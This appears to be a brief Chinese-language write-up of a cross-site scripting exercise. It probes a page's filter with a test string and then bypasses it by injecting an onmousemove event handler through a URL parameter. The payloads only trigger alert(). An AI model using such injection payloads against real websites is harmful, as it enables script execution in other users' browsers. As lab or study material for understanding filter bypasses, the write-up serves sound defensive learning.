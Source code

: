 有一个插件

​![image](assets/image-20240913215736-whqe6eq.png)​

payload：

```bash
?arg01=" ' sRc DaTa OnFocus OnmOuseOver OnMouseDoWn P <sCriPt> <a hReF=javascript:alert()>; &arg02=" ' sRc DaTa OnFocus OnmOuseOver OnMouseDoWn P <sCriPt> <a hReF=javascript:alert()>;
```

​![image](assets/image-20240913220537-d5ltkg0.png)​

script被过滤、大写转小写、<>被html编码、而鼠标事件、键盘事件没有限制。

payload：

```bash
?arg01\=a&arg02\=666 onmousemove\='alert(1)'
```

​![image](assets/image-20240913221250-0u79wu4.png)​

